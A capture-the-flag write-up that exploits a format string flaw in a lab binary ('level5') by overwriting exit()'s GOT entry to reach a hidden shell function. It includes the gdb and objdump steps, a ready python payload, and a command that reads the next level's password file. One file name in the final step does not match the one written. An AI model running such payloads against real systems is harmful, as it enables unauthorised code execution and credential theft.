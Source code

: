 In this level, the executable waits for an input, prints it, and exits after pressing enter.

After analyzing it with gdb, we see that the main() function calls a function named `n()`, but there is also a non-called function `o()`. 

The `main()` function calls `n()`, which is not very interesting by itself. However, inside `n()`, there is a call to `fgets()`:
```
0x080484e5 <+35>:    call   0x80483a0 <fgets@plt>
```
This protects against buffer overflow attacks. After `fgets`(), there is a call to `printf()`:
```
0x080484f3 <+49>: call 0x8048380 <printf@plt>
```
This makes `printf()` vulnerable to a format string exploit.

The non-called function `o()` launches a shell via a call to `system()`:
```
0x080484b1 <+13>: call 0x80483b0 <system@plt>
```
We need to manipulate the `printf()` function into calling `o()` using a format string attack.

Our main concern is that both `n()` and `o()` never return and exit directly. Even if we overwrite something with the format string vulnerability, we may not be able to use that directly.

To overcome this, we can replace the address of `exit()` in the Global Offset Table (GOT) with the address of `o()`. Whenever `exit()` is called, the program will jump to the modified GOT entry.

First, find the address of `exit()` in the GOT and the address of `o()` function.
```
objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
```
(gdb) info function o
All functions matching regular expression "o":

Non-debugging symbols:
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x08048420  __do_global_dtors_aux
0x080484a4  o
0x080485a0  __do_global_ctors_aux
```

Now we have the address of `exit()`: `0x08049838` and the address of `o()`: `0x080484a4`.

We need to print the memory until we reach the address of `exit()`:
```
 python -c 'print "AAAA" + " %x" * 10' > /tmp/payload5
 cat /tmp/payload5 | ./level5
 aaaa 200 b7fd1ac0 b7ff37d0 61616161 25207825 78252078 20782520 25207825 78252078 20782520
```
The address of `exit()` is at the 4th position (`61616161`).


Our final format string attack:
```
python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit5
cat /tmp/exploit - | ./level5
cat /home/user/level6/.pass
```
